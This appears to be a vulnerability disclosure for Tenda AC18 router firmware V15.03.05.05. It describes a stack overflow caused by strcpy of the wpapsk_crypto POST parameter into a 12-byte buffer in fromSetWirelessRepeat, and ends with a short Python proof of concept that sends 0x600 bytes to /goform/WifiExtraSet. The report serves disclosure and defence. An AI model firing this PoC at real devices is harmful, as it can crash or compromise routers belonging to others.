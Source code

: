 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromSetWirelessRepeat` function. The `v31` variable receives the `wpapsk_crypto` parameter from a POST request and is later assigned to the `v11` variable, which is fixed at 12 bytes. However, since the user can control the input of `wpapsk_crypto`, the statement `strcpy(v11, v31);` can cause a buffer overflow. The user-provided `wpapsk_crypto` can exceed the capacity of the `v11` array, triggering this security vulnerability.

![image-20240305220604598](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305220604598.png)

![image-20240305220617858](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305220617858.png)

The `v39` variable receives the `security` parameter from a POST request and we make it equal to "wpapsk".

![image-20240305221213155](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305221213155.png)

![image-20240305221252233](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305221252233.png)

![image-20240305220654018](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305220654018.png)

## PoC

```python
import requests

IP = '192.168.84.101'
url = f"http://{IP}/goform/WifiExtraSet?"
url += "wl_mode=0&security=wpapsk&wpapsk_key=aaaaaaa&wpapsk_crypto=" + "s" * 0x600

response = requests.get(url)
```

![image-20240305221659001](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305221659001.png)

